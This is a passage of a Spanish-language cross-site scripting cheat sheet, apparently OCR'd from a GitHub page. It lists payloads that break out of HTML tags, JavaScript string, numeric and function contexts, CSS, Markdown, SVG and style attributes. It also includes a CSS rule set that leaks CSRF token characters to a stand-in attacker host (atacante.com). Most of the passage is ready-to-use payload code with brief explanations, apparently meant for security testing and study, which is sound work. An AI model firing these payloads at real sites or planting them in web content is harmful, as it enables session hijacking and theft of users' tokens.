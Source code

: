    - `</textarea><script>alert(1)</script>`
   - `</title><script>alert(1)</script>`
   - `</style><script>alert(1)</script>`
   - `</script><script>alert(1)</script>` (si el input va dentro de otro script)
   - `<script>alert(1)</script>` (escapando de comentarios HTML)
4. **Inyección Dentro de JavaScript (JS Injection):**

   - El input se refleja dentro de una etiqueta `<script> ... </script>`.
   - Contexto: String literal.

     JavaScript

```javascript
 <script>
  var username = 'AQUÍ_INPUT';
document.getElementById('greeting').innerText = 'Hola, ' + username;
  </script>
```
Payload: `';alert(document.domain);var ignore='` Resultado: `var username = '';alert(document.domain);var ignore='';` (el payload cierra el string, ejecuta código, y crea una nueva variable para que el resto del script original no cause error).
- Contexto: Asignación numérica.

```javascript
<script>
  var userId = AQUÍ_INPUT;
</script>
```
Payload: `1; alert(1)`
- Contexto: Dentro de una función o método.

```javascript
   <script>
   customFunction('AQUÍ_INPUT');      </script>
```
Payload: `');alert(1);customFunction('`
5. **Inyección en CSS (menos común para ejecución de JS directa hoy en día):**

- Escapar del contexto CSS a HTML: `input_controlado}</style><script>alert(1)</script>`
- Funcionalidad `url()`: `body { background-image: url("javascript:alert(1)"); }` (obsoleto en navegadores modernos).
- `expression()`: `div { width: expression(alert(1)); }` (solo IE, muy obsoleto).
- **CSS Injection para robo de datos (avanzado):** Usar selectores de atributos para inferir caracteres y enviarlos a un servidor externo.
```css
input[name="csrf_token"][value^="a"] { background-image: url("http://atacante.com/log?char=a"); }
input[name="csrf_token"][value^="b"] { background-image: url("http://atacante.com/log?char=b"); }
/* ... y así sucesivamente para cada caracter ... */
```
### XSS en Diferentes Content-Types y Contextos Especiales

- **Content-Type Incorrecto:**
  - Si una API devuelve datos JSON (e.g., `{"mensaje":"Hola ben"}`) pero con la cabecera `Content-Type: text/html` en lugar de `application/json`, el navegador puede interpretar la respuesta como HTML.
  - Si el contenido JSON es controlable por el atacante, podría inyectar HTML/JS.
  - Mitigación del servidor: `X-Content-Type-Options: nosniff`.
- **Markdown XSS:**
  - Si un sitio permite Markdown y el parser/sanitizador no es seguro.
  - `[un enlace](javascript:alert(1))`
  - `![una imagen](x"onerror="alert(1))"` (se convierte en `<img src="x" onerror="alert(1)" alt="una imagen">`)
- **SVG XSS:**
  - Los archivos SVG son XML y pueden contener scripts. Si se permite subir SVGs y se muestran inline.
  - `<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>`
- **XSS en Atributos `style`:**
  - `<div style="width: expression(alert(1))"></div>` (IE)
  - `<div style="background:url(javascript:alert(1))"></div>` (navegadores antiguos)